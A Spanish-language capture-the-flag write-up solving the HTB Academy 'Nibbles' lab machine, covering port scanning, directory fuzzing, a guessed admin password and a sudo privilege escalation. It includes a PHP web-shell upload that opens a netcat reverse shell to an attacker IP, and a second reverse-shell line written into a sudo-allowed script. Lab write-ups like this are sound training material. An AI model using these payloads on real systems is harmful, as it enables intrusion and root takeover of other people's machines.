







___
Tags: #Unrestricted_File_Upload #Arbitrary_File_Upload #Sudo_misconfiguration
___
# Nibbles
## Información General
<h3> Dificultad:  </h3>
<h3> Sistema operativo: Linux</h3>
<h3> Vulnerabilidad explotada: Unrestricted File Upload, Arbitrary File Upload, Sudo misconfiguration </h3>
<h3> Fecha de resolución: 20/02/2026</h3>
<h3>Enlace de la mv: <a href="https://academy.hackthebox.com/course/preview/getting-started" target="_blank">Nibbles - HTB academy</a></h3>

### **Leer el documento en Ingles** <a href="nibbles_ingles.md">Nibbles</a>

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.12.250**
### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 10.129.12.250
```

**Su ttl es 63. Por tanto, es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
nmap -sV -sC -sS --open 10.129.12.250
```

<p align="center"> 

</p>

| Open port | Service | Version                                                      |
| --------- | ------- | ------------------------------------------------------------ |
| 22        | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) |
| 80        | http    |  Apache httpd 2.4.18 ((Ubuntu))                              |

## Exploración

Investigando el codigo fuente de la pagina web me encuentro lo siguiente: 

<p align="center"> 

</p>

### Fuzzing web

```
gobuster dir -u http://10.129.12.250/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt
```

<p align="center"> 

</p>

Luego en el fichero README nos dice que versión tiene:

<p align="center"> 

</p>

Intento acceder al apartado de administración de la maquina con la sorpresa de que me encuentro investigando, el usuario **admin**, y la contraseña **nibbles** suponiendo como la maquina se llama nibbles y acierto 

<p align="center"> 


</p>

## Explotación

Situándonos en **Plugins - My image** subiendo una imagen **.php** con el siguiente contenido dentro de la imagen:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.171 4443 >/tmp/f"); ?>
```

Nos saldrá mucho errores pero funcionará

<p align="center"> 

</p>

Luego nos situamos en la ruta donde se ha guardado la imagen http://10.129.14.56/nibbleblog/content/private/plugins/my_image/

Logramos acceder dentro del sistema

<p align="center"> 

</p>

Podemos conseguir la flash del user.txt
## Explotación Posterior

### TTY 

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

<p align="center"> 

</p>

Esto significa que la ruta **/home/nibbler/personal/stuff/monitor.sh** tiene permiso de sudo

En la carpeta de nibbler habra un .zip lo compromimos con el comando **unzip** luego nos situamos donde se encuentra el script .sh y hacemos lo siguiente:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.171 8443 >/tmp/f' > monitor.sh
```

Después activamos el puerto de escucha

```
nc -lvnp 8443
```

Luego activamos el script con el siguiente comando 

```
sudo /home/nibbler/personal/stuff/monitor.sh
```

<p align="center"> 

</p>

## Conclusión

La máquina _Nibbles_ de HTB Academy es una excelente opción para quienes están empezando en CTF, porque enseña un flujo básico y muy realista: enumeración inicial, análisis de una aplicación web y escalada de privilegios en Linux. A pesar de ser de dificultad fácil, refuerza la importancia de ir con calma, tomar notas y no confiarse, ya que pequeños mecanismos de protección (como el bloqueo por intentos) pueden hacerte perder tiempo si no enumeras bien.